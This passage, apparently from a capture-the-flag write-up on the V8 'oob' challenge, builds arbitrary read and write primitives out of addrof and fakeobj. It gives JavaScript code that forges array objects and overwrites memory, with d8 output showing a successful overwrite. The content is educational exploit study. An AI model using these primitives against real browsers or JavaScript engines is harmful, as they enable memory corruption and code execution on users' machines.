 ```
```

The primitive code:

```
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
    addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}
```


#### Arbitrary Write Primitive

According to the [blog](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) that if we reuse the arbirary read primitive and try to overwrite the `fakeobj[0]`, it won't work on some addresses (e.g. free_hook addr). However, overwrite the string field (valid JS runtime object field) in the above example is still working.

```
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10

console.log("[+] Try to overwrite to this value: " + itof(BigInt(0x4242424242424242)));
fakeArray[0] = itof(BigInt(0x4242424242424242));
console.log("[+] Leak fakeArray[0]: " + fakeArray[0]); 
console.log("[+] Leak target_string: " + target_string)

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Address of target string: 0x24bf42cdf3c9
[+] Leak address of floatArray: 0x292080f9f9
[+] Leak: 0x4141414141414141
[+] Try to overwrite to this value: 156842099844.53125
[+] Leak fakeArray[0]: 156842099844.53125
[+] Leak target_string: DBBBBBB // this is because BigInt -> Float -> (Char)Byte has loss of accuracy
```

